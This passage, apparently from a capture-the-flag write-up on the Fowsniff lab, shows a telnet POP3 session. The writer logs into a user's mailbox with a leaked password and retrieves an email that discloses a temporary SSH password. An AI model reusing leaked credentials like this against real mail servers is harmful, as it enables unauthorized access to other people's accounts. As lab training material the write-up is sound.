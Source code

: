 User `seina` forgot to change his/her password ! Let's login as `seina` on pop3 using `telnet` and see if there is interesting emails :  
```
attacker@AttackBox:~/Fowsniff_CTF$ telnet 10.10.255.254 110
Trying 10.10.255.254...
Connected to 10.10.255.254.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```
